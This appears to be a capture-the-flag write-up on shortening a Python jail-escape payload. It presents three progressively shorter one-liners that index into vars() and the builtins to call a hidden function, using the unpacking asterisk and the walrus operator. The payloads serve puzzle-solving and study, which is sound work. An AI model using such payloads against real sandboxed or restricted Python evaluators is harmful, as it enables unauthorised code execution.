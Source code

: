 # Golfing 50 Character

at __Golfing 100 Character__ we already had this payload

```
vars(vars()[[x for x in vars()][6]])[[y for y in vars(vars()[[x for x in vars()][6]])][12]]()
```

but it is still too long

<img src='img/1.png' width='700px'>

yea, we can see if the payload is still far from 50 character, but we had ultimate solution here. That issssss __asterisk__ (__*__). How can we use it? asterisk can change the use of

```
x for x in
```

things. So, lets try it

```
vars(vars()[[*vars()][6]])[[*vars(vars()[[*vars()][6]])][12]]()
```

u guys can see huh? lets see the character

<img src='img/2.png' width='700px'>

see, just using __*__, it makes the payload reducing 30 char. But its still far from the maximum payload.

i have more solution for this, lets use walrus operator __:=__.

```
vars(x:=vars()[[*vars()][6]])[[*vars(x)][12]]()
```

<img src='img/3.png' width='700px'>

